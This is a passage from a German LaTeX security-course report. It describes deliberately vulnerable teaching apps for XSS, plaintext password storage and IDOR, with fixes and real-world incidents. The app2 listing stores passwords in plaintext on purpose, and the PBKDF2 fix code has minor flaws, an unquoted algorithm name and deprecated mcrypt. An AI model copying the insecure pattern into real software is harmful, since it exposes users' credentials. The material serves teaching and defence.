java -jar vulnApp01.jar > guestbook.html

\subsubsection{Korrektur der Schwachstelle}
Die Schwachstelle kann korrigiert werden, indem einfach (wie in Listing ~\ref*{code:app1b}) der Input vorher saniert wird (es werden alle HTML-Metazeichen durch ihre Entities ausgetauscht).
\begin{lstlisting}[caption=XSS Schwachstelle,label=code:app1b,style=c]
public static void main(String[] args) {
	String entry = null;
	
	if(args.length > 1){
	
		System.err.println("Usage: Guestbook [<GUESTBOOK ENTRY TEXT>]");
		System.exit(1);
	}
	
	Connection conn = null;
	
	// ... setting up driver & opening connection
	
	// if no argument was specified:
	// print the page with all guestbook entries up to now
	try {
	
		String query = null;
		
		if (args.length == 0) {
		
			// ... output old guestbook entries
			
		// if an argument was specified:
		// use it as a new guestbook entry
		}else {
		
			entry = "";
			for(int i=0; i<args.length; i++){
				entry += args[i] + " ";
			}
			entry = entry.trim();
			
			// my mother always told me to sanitize my input
			entry = entry.replaceAll("&", "&amp;")
				.replaceAll("<", "&lt;")
				.replaceAll(">", "&gt;")
				.replaceAll("\'", "&apos;")
				.replaceAll("\"", "&quot;");
			
			query = "INSERT INTO entries (content) VALUES (?)";
			
			pStmt = conn.prepareStatement(query);
			pStmt.setString(1, entry);
			pStmt.execute();
		}
	
	}catch (Exception e){
	e.printStackTrace();
	
	}finally {
	
		// ... close stuff
	}
}

\end{lstlisting}
\subsubsection{Wo ist diese Schwachstelle aufgetreten?}

\begin{itemize}
	\item April 2015: InetSec Challenge 3
	\\Das soziale Netzwerk für Terroristen ``Fakebook'' wurde von einem geübten Hacker per XSS angegriffen. Dabei wurde der Account des Chefs der Terrorzelle so angegriffen, dass er jedem seiner Freunde eine Einladung zu einem Treffen (in Wahrheit ein Hinterhalt der Regierung) auf die Pinnwand schreibt.
	\\Quelle: https://secenv.seclab.tuwien.ac.at/secenv/default/inetsec1
	
	\item 2010: Twitter
	\\ Auf Twitter wurde ein Tweet veröffentlicht, der bei einem onMouseOver-Event Popups anzeigte und auf pornografische Websites weiterleitete. Später kam ein dazu, dass sich der Tweet ohne Wissen des Opfers durch dessen Twitter-Account weiter verbreitete.
	\\ Quelle: http://www.pcworld.com/article/205969/twitter\_xss\_worm\_holds\_lessons\_for\_it.html
	
	\item Juni 2014: Twitter
	\\Im Juni 2014 wurde das TweetDeck von Twitter per XSS angegriffen, was dazu führte, dass einige User unabsichtlich unverständliche Tweets von sich gaben.
	\\Das genaue Ausmaß des verursachten Schadens ist nicht geklärt.
	\\ Quelle: http://www.v3.co.uk/v3-uk/news/2349680/twitter-scrambles-to-fix-tweetdeck-cross-site-scripting-attack
	
	\item Mai 2013: PayPal
	\\Die Suchfunktion von Paypal konnte (zumindest in der deutschen Version der Seite) für XSS benutzt werden, indem ein Javascript-Alert-Code verwendet wurde
	\\ Quelle: https://threatpost.com/paypal-site-vulnerable-to-xss-attack/100787
\end{itemize}

% Begin app2

\subsection{app2}

\subsubsection{Schwachstelle}

\textbf{Art der Schwachstelle:}
\begin{center}
CWE-930: OWASP Top Ten 2013 \\
Category A2 - Broken Authentication and Session Management \\
CWE-256: Plaintext Storage of a Password
\end{center}
\underline{Kurze Beschreibung}: \\[0.5em]
Speichern der Passwörter in Plain-Text kann zu Systemkompromitierung führen. \\[0.5em]
\underline{Erweiterte Beschreibung}: \\[0.5em]
Probleme mit Passwort-Management erscheinen wenn ein Passwort in den App-Eigenschaften oder Konfiguration bzw. in der Datenbank als Plain-Text gespeichert werden. \\
Jede Person, die den Lesezugriff zu solchen Dateien/Informationen hat bzw. bekommt, kann auch die passwortgeschützen Ressourcen zugreifen. \\[0.5em]
\underline{Zeit der Einfügrung}: \\[0.5em]
Architektur und Design \\[0.5em]
\underline{Modi der Einführung}: \\[0.5em]
Anwender glauben manchmal, dass sie ihre Anwendungen von einer Person nicht schützen können, die den Zugriff zur Konfiguration/Datenbank hat, aber diese Einstellung macht die Arbeit des Angreifers einfacher. \\[1em]
\textbf{Ort des Fehlers im Code:} \\[0.5em]
Wie man im Listing~\ref*{code:app2a} sehen kann, werden in der Datenbank nur der Username und das Plain-Text-Passwort gespeichert (Zeilen 2 und 3). \\[1em]
\textbf{Wie kann der Fehler behoben werden?}
\begin{enumerate}
	\item Passwort hashen (z.B. SHA-256)
	\item Salt hinzufügen (random-Zeichen pro Benutzer und Passwort z.B. 24 bit lang)
	\item "`Langsames Hashen"': Passwort-Stretching (z.B. PBKDF2, min. 10000 Iterationen)
\end{enumerate}

\begin{lstlisting}[caption=app2 mit Schwachstelle,label=code:app2a,style=c]
function echoInsert($username, $password) {
    echo "SQL-Statement:<br/>";
    echo "<font style=\"font-family: monospace\"><b>INSERT INTO</b> users(username, password)<br/><b>VALUES</b>(<br/>&nbsp;&nbsp;&nbsp;&nbsp;$username,<br/> &nbsp;&nbsp;&nbsp;&nbsp;$password<br/></font>)";
}

if(isset($_POST['submit'])) {
    $username = htmlspecialchars($_POST["user"]);
    $password = htmlspecialchars($_POST["pass"]);
    $cpassword = htmlspecialchars($_POST["cpass"]);

    if ($password != $cpassword) {
        echo "<font color=\"red\"><b>Die beiden Passw\"orter m\"ussen gleich sein!</b></font>";
    } else {
        echoInsert($username, $password);
    }
}
\end{lstlisting}

\subsubsection{Ausnutzen der Schwachstelle}

Um die Schwachstelle auszunutzen, gibt es folgende möglichkeiten:
\begin{itemize}
	\item Die Webseite: http://wlodarski.at/secsyseng-ss2015/05/app2/src-vuln/lab1c.php zu besuchen.
	\item Das Program (app2/src-vuln/lab1c.php) auf einem beliebigen Server mit PHP auszuführen.
\end{itemize}
Dann sollen der Username und das Passwort angegeben werden und der Button "`Registrieren"' gedrückt werden.

\subsubsection{Korrektur der Schwachstelle}

Wie man im Listing~\ref*{code:app2b} sehen kann, ist die Schwachstelle aufgehoben worden,
indem man in Code zusätzlich randomisierte Salts generiert (Zeile 52) und den
PBKDF2 Algorithmus (Zeilen 1-36) mit SHA-256 Hashverfahren (Zeile 39 sowie 16) verwendet. \\[0.5em]
Das Programm ist nun sicher, da es keine Plain-Text Passwörter mehr gespeichert werden
und der Algorithmus für das langsame Hashen (Zeilen 20-30) mit Salt und sicherem SHA-256
gilt heutzutage als eine sichere Methode für das Speichern der Passwörter.

\begin{lstlisting}[caption=app2b korrigiert,label=code:app2b,style=c]
function pbkdf2($algorithm, $password, $salt, $count, $key_length, $raw_output = false) {
    $algorithm = strtolower($algorithm);
    if(!in_array($algorithm, hash_algos(), true))
        trigger_error('PBKDF2 ERROR: Invalid hash algorithm.', E_USER_ERROR);
    if($count <= 0 || $key_length <= 0)
        trigger_error('PBKDF2 ERROR: Invalid parameters.', E_USER_ERROR);

    if (function_exists("hash_pbkdf2")) {
        // The output length is in NIBBLES (4-bits) if $raw_output is false!
        if (!$raw_output) {
            $key_length = $key_length * 2;
        }
        return hash_pbkdf2($algorithm, $password, $salt, $count, $key_length, $raw_output);
    }

    $hash_length = strlen(hash($algorithm, "", true));
    $block_count = ceil($key_length / $hash_length);

    $output = "";
    for($i = 1; $i <= $block_count; $i++) {
        // $i encoded as 4 bytes, big endian.
        $last = $salt . pack("N", $i);
        // first iteration
        $last = $xorsum = hash_hmac($algorithm, $last, $password, true);
        // perform the other $count - 1 iterations
        for ($j = 1; $j < $count; $j++) {
            $xorsum ^= ($last = hash_hmac($algorithm, $last, $password, true));
        }
        $output .= $xorsum;
    }

    if($raw_output)
        return substr($output, 0, $key_length);
    else
        return bin2hex(substr($output, 0, $key_length));
}

function echoInsertSecure($username, $salt, $password) {
    $securePassword = pbkdf2(sha256, $password, $salt, 20000, 24);
    echo "SQL-Statement:<br/>";
    echo "<font style=\"font-family: monospace\"><b>INSERT INTO</b> users(username, salt, password)<br/><b>VALUES</b>(<br/> &nbsp;&nbsp;&nbsp;&nbsp;$username,<br/> &nbsp;&nbsp;&nbsp;&nbsp;$salt,<br/> &nbsp;&nbsp;&nbsp;&nbsp;$securePassword<br/></font>)";
}

if(isset($_POST['submit'])) {
    $username = htmlspecialchars($_POST["user"]);
    $password = htmlspecialchars($_POST["pass"]);
    $cpassword = htmlspecialchars($_POST["cpass"]);

    if ($password != $cpassword) {
        echo "<font color=\"red\"><b>Die beiden Passw\"orter m\"ussen gleich sein!</b></font>";
    } else {
        $salt = mcrypt_create_iv(24, MCRYPT_DEV_URANDOM);
        echoInsertSecure($username, $salt, $password);
    }
}
\end{lstlisting}



\subsubsection{Wo ist diese Schwachstelle aufgetreten?}

\begin{itemize}
\item Im August 2013 hat sich herausgestellt, dass Google Chrome die Passwörter in Plain-Text Form speichert.
	Falls eine unbefugte Person den Zugriff zum Computer des Opfers bekommt, dann kann sie alle in Chrome gespeicherten Passwörter problemlos lesen -
	ohne Master-Passwort und einfach im Einstellungen-Panel. Wenn das nicht genug wäre, hat der Dev-Chef von Chrome gesagt,
	er wüsste über diese Schwachstelle und es gäbe keine Pläne, das System zu ändern. \\
	Es gibt noch keine bekannten Auswirkungen und Ausnutzungen von dieser Schwachstelle.
	Quellen: http://www.theguardian.com/technology/2013/aug/07/google-chrome-password-security-flaw \\
	https://nakedsecurity.sophos.com/2013/08/08/chrome-firefox-display-plain-text-passwords-with-a-few-clicks/
\item Die Uber App hat den Usern die E-Mails mit Plain-Text-Passwörtern geschickt, dank denen die Hackers
	die Kontos angreifen konnten. Im letzten Monat (Mai 2015) hat Isabelle Berner aus den USA
	die Rechnungen für Taxi-Fahrten im Großbritannien bekommen, wobei sie gar nicht in Großbritannien war.
	Ihr Konto wurde gehackt und zwar hat Frau Berner das Passwort geändert, aber das war trotzdem kein Problem
	für den Hacker, ihr Konto nochmals auszunutzen. Danach hat sie ein E-Mail von Uber-Support bekommen,
	indem sie ihr neues Passwort - im Plain-Text - bekommen hat. Schließlich hat Frau Berner ihr Geld von Uber zurückbekommen. \\
	Quellen: http://motherboard.vice.com/read/ubers-response-to-hacked-accounts-is-more-bad-security \\
	http://www.itpro.co.uk/security/24631/uber-sends-hacking-victim-new-password-in-plain-text-email \\
	https://nakedsecurity.sophos.com/2015/05/19/uber-in-hot-water-again-over-plaintext-passwords-in-emails/
\item Im Juni 2014 gab es 31 964 Super-Mikro Motherboards mit hard-kodierten Plain-Text Passwörtern
	in ihren Controllers. Dabei hatten 3 296 von diesen die Default-Kombinationen. Es wurde ein Path
	veröffentlicht, aber es muss im System geflashed werden, was nicht immer eine Möglichkeit ist. \\
	Es gibt keine bekannten Auswirkungen und Ausnutzungen von dieser Schwachstelle. \\
	Quelle: http://www.pcworld.com/article/2366020/alert-issued-over-plain-text-passwords-in-some-super-micro-motherboards.html
\end{itemize}

% End app2

\subsection{app3}

\subsubsection{Schwachstelle}

\subsubsection{Ausnutzen der Schwachstelle}

\subsubsection{Korrektur der Schwachstelle}

\subsubsection{Wo ist diese Schwachstelle aufgetreten?}

\begin{itemize}
	\item Im Juni 2013 wurde herausgefunden, dass auf der ''nokia.com'' Homepage es möglich war, durch einfaches austauschen der ID des Benutzers, die Informationen von anderen Benutzern einzusehen. \\
	Es sind keine bekannten Auswirkungen bekannt, jedoch wurde der Bug kürzlich nach Bekanntgabe behoben. \\
	Quelle: http://avsecurity.in/2013/06/nokia-insecure-direct-object-reference/ (abgerufen am 01.06.2015 um 22:30)
	\item Im Dezember 2014 wurde aufgezeigt, dass es mögliche ist für jeden Nutzer der Seite ''vimeo.com'' es möglich ist das Passwort zu ändern. Dabei konnte man einfach mit dem ''GET-Request'' für ''Passwort vergessen'' tinkern, um eine andere Benutzerkennung einzufügen, und damit das Passwort des anderen Nutzers zu ändern. \\
	Es ist nicht bekannt das dieser Fehler ausgenutzt wurde. \\
	Quelle: https://hackerone.com/reports/42587 (abgerufen am 01.06.2015 um 22:40)
	\item Im Dezember 2014 wurde ein IDOR Bug in Facebook aufgezeigt, durch den es möglich war Informationen von Benutzern zu lesen, welche ich aufgrund der eigentlichen Einstellungen nicht hätte lesen können sollen. Z.B. als nicht Freund konnte ich Freund-Informationen lesen. \\
	Dieser Fehler wurde bereits behoben und es ist zudem nicht bekannt, dass der Fehler ausgenutzt worden wäre. \\
	Quelle: http://magazine.vulnerability-db.com/?q=articles/2014/12/23/facebook-social-network-privacy-issue-disclosed-bug-bounty-program-whitehat (abgerufen am 01.06.2015 um 22:45)
\end{itemize}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


